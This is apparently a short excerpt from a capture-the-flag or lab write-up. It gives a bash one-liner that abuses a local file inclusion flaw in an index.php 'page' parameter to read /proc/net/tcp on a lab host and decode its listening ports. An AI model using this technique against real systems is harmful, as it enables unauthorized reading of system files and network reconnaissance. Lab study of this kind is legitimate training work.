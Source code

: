 




To search over the LFI to search over the ports are:

```bash
for port in $(curl -s -X GET "http://10.10.11.154/index.php?page=/proc/net/tcp" | awk '{print $2}' | grep -v "local_address" | awk '{print $2}' FS=":" | sort -u ); do echo "this is the port => $((16#$port))"; done
```
